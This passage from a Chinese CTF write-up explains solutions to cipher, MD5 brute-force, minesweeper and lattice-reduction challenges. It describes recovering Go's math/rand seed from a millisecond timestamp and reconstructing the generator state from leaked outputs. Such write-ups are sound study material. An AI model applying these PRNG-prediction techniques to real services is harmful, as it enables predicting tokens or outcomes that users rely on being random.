得到解密的文档后，搜索 `flag` 然后发现用了[这种](https://en.wikipedia.org/wiki/NATO_phonetic_alphabet)加密方式，然后把单词转换成对应的字母就能拿到 flag1 。

### flag2

注意到 flag2 给出了一堆数字加字母的组合，同时统计了一下发现字母的频率跟数字的频率大致是 `6:10` ，很容易猜想这可能是 `16` 进制。 因此原文的字母一定都是 `a-f` 。

然后我输出了一下每个字母出现的次数，发现几乎是差不多的，于是我大胆猜测可能所有的字母都在同一个轮换内。那这样每循环 26 次就会回到单位置换。因此我输出了所有在 `26` 的倍数位置的字母，发现都是 `a-z` ，那表明我的猜测应该是正确的。

然后找到该轮换的话，我们对于轮换的每个位置，找到该位置上能是哪些字符。然后就能找到 `a-f` 经过一步能到达的字符集， `a-f` 经过两步能到达的字符集， `a-f` 经过三步能到达的字符集，等等。然后对于字母 $\alpha$，如果它出现在了第 $i$ 个字符集内，那它在轮换内的下一个字母必然会出现在第 $i+1$ 个字符集内。然后我们对集合取个交集即可得到每个字符 $\alpha$ 的下一个位置上的字符究竟是啥了。这部分代码在 `./attachment/weird/calc2.py` 。

然后得到原文后，由于是一堆 128-bit 数，猜测可能是 md5 码，然后我就暴力尝试了所有单 ASCII 码和所有两个 ASCII 码的组合情况，然后大概就把 flag2 给爆出来了。 这部分的代码在 `./attachment/weird/decode_md5.py` 。

## 扫雷 II

### flag1
首先题目提示说去年的扫雷题解会有帮助，于是我就找到了去年的扫雷题解，发现是逆向破解伪随机，于是我拿着 flag1 就开始研究 `Intn()` 的行为。研究半天发现了 `go` 的随机确实很好破解，但是 `Intn(257)` 之后还要对 `2` 取模，于是我尝试构造了一个先对 `257` 再对 `2` 取模的域，尝试在这个域下做，结果发现 `Intn()` 只能拿到 `vec` 数组的数的第 `32` 位到 第 `63` 位的信息，因此没办法拼出整个 `vec` 数组，也就没办法逆向了。思路到此戛然而止。

后来过了几天我再回来看这个题发现我只需要拿到它的随机种子就好了，因为它的 `Seed()` 设置的是 `time.Now().UnixMilli()` ，表明我发完 `init` 请求后，只需要枚举最多 `10000` 个随机种子（10s）就能把它的种子给试出来，拿到种子之后就能拿到后续所有的随机行为了。这部分的代码可以见 flag3 的代码，因为 flag3 是基于 flag1 的，因此我直接在 flag1 的代码的基础上改动做的 flag3 ，并没有保存 flag1 的代码。

### flag2

这部分才是真正的逆向破解伪随机代码。

首先在这部分，它生成一个棋盘调用了 `4` 次 `rand.Uint64()` ，然后直接把拿到的 `256` 位当成一个 `16x16` 的棋盘。

我们首先来看一下 `rand.Seed()` 的逻辑：

``` go
func (rng *rngSource) Seed(seed int64) {
	rng.tap = 0
	rng.feed = rngLen - rngTap

	seed = seed % int32max
	if seed < 0 {
		seed += int32max
	}
	if seed == 0 {
		seed = 89482311
	}

	x := int32(seed)
	for i := -20; i < rngLen; i++ {
		x = seedrand(x)
		if i >= 0 {
			var u int64
			u = int64(x) << 40
			x = seedrand(x)
			u ^= int64(x) << 20
			x = seedrand(x)
			u ^= int64(x)
			u ^= rngCooked[i]
			rng.vec[i] = u
		}
	}
}
```
这部分的代码其实就是把 `tap = 0, feed = rngLen - rngTap` ，然后随机一个 `vec` 出来。然后看一下 `rng.Uint64()` 的逻辑：
``` go
func (rng *rngSource) Uint64() uint64 {
	rng.tap--
	if rng.tap < 0 {
		rng.tap += rngLen
	}

	rng.feed--
	if rng.feed < 0 {
		rng.feed += rngLen
	}

	x := rng.vec[rng.feed] + rng.vec[rng.tap]
	rng.vec[rng.feed] = x
	return uint64(x)
}
```
这部分的代码的逻辑实际上就是：
``` python
def Uint64():
    tap -= 1
    feed -= 1
    vec[feed] += vec[tap]
    return vec[feed]
```
所以每调用一次 `rand.Uint64()` 就会泄露 `vec` 的一个元素的信息；同时我们也并不需要知道 `tap` 和 `feed` 到底是多少，因为反正 `tap` 跟 `feed` 之间的相对距离永远都是 `rngTap` ，纵使它的 `tap` 跟 `feed` 和我们的不一样，只需要在循环移位的意义下等价就可以了，也即 `tap` 跟 `feed` 之间的相对距离不变。

因此我们只需要把 `tap` 和 `feed` 的初值设置成 `rand.Seed()` 函数里设置的那样，然后模拟 `rngLen` 次 `rand.Uint64()` 的过程拿到整个 `vec` 数组，那我们也就掌控了整个随机的过程。这部分代码见 `./attachment/mine/calc2.go` 。

~~做 flag2 的时候发了一天的 `level=1` 的请求，人都调傻了。~~

### flag3
这部分还是跟 flag1 一样，只不过它隐藏了若干个格子的信息。我们只需要先爆出随机种子，然后把没隐藏信息的格子先填了，剩下的格子直接手玩就好。代码见 `./attachment/mine/calc3.go` 。

## 方程组

### flag1
这部分的转换题意是：给出矩阵 $A$ 和向量 $b$ ，求 $x$ 满足 $Ax=b$ 。  
那直接用 `numpy` 解解方程就好。代码见 `./attachment/equation/calc1.py`

### flag2
这部分的转换题意是：给出矩阵 $A$ 和向量 $b[:-10]$，求 $x$ 满足 $(Ax)[:-10]=b[:-10]$ 。

那相当于要解一个不定方程，且由于 $x$ 就是我们的 flag ，所以每维上的数都是 `0~127` 且是整数 ，这就不太好解。因此我们尝试补全 $b$ ，把解不定方程变成解正常的方程。

首先我们知道 $x$ 的前五位一定是 `flag{` ，并且最后一位一定是 `}`，这就相当于多了 `6` 个限制，也就是可以多 `6` 个方程。具体来说，比如我们限定 $x$ 的第一位必须是 $\mathrm{ord}('f')$ ，我们可以给 $A$ 多一行 $(1\ 0\ 0\ \cdots\ 0)$ ，同时让 $b$ 多一列 $\mathrm{ord}('f')$ 。这样我们就成功多拿到了一个方程，且它的意义是限定 $x$ 的第一位是 $y$ 。

剩下还有 `4` 个方程，我大胆猜测它的 flag2 一定有两个 `_`，一个 `a` 和一个 `e` ，然后枚举它们的位置，再构造出 `4` 个方程。然后解完方程后筛掉一些明显就不可能的解，眼查一下就能找到解。代码在 `./attachment/mine/calc2.py`

### flag3
这部分的转换题意是：给出向量 $base$ 和一个数 $k$ ，求 $x$ 满足 $base\cdot x = k$ 。

这部分一开始完全不会做，但提出给出了 `LatticeReduce()` 函数。

具体来说，比如给出方程 $a_1x_1+a_2x_2+a_3x_3=0$，那首先我们有一下恒等式：
$$
\begin{pmatrix}
1 & 0 & 0 & -a_1\\
0 & 1 & 0 & -a_2\\
0 & 0 & 1 & -a_3
\end{pmatrix}
\begin{pmatrix}
a_1\\
a_2\\
a_3\\
1
\end{pmatrix}
=
\begin{pmatrix}
0\\
0\\
0\\
0
\end{pmatrix}
$$
假设有 `b = LatticeReduce[a]` ，那么下边的关系仍然成立：
$$
\begin{pmatrix}
b_{11} & b_{12} & b_{13} & b_{14}\\
b_{21} & b_{22} & b_{23} & b_{24}\\
b_{31} & b_{32} & b_{33} & b_{34}
\end{pmatrix}
\begin{pmatrix}
a_1\\
a_2\\
a_3\\
1
\end{pmatrix}
=
\begin{pmatrix}
0\\
0\\
0\\
0
\end{pmatrix}
$$
假如上边的 $b_{34}=0$，那么我们就可以令 $x_1=b_{31}, x_2=b_{32}, x_3=b_{33}$ ，从而找到一组解。

那对于这个题的形式是 $a_1x_1+a_2x_2+a_3x_3=k$ ，那么我们把上边的形式变换一下：
$$
\begin{pmatrix}
1 & 0 & 0 & 0 & -a_1\\
0 & 1 & 0 & 0 & -a_2\\
0 & 0 & 1 & 0 & -a_3\\
0 & 0 & 0 & 1 & -k
\end{pmatrix}
\begin{pmatrix}
a_1\\
a_2\\
a_3\\
k\\
1
\end{pmatrix}
=
\begin{pmatrix}
0\\
0\\
0\\
0\\
0
\end{pmatrix}
$$
然后求出 `b = LatticeReduce[a]` ，找到比如 $b_{34} = 1$ 和 $b_{35} = 0$ 即可。代码见 `./attachment/equation/calc3.nb` 。最后我是眼查出的解，由于最后会有误差，最后拿到的 $b_{35}=16$。

***
## 后记
去年就听说过 geekgame ，但当时忙于期中 project 并没有参加，后来看了看题感觉非常有意思，想着今年怎么着也得参加一把。

今年算是第一次参赛，尽管过程中有着各种各样的磕磕绊绊，我也认识并学习到了各种各样的 web 和 逆向 甚至 程序语言 的技巧。当然尽管现在还是对那些技巧一窍不通，但最终也还是凭借一些残存的算法竞赛肌肉记忆惊险拿到了第五。

非常感谢这次竞赛，让我久违地感受到了打比赛的纯粹的乐趣，和学各种各样的知识与技巧给我带来的纯粹的快乐。也感谢出题人们精心设计的题目，大部分题目令我拍案叫绝。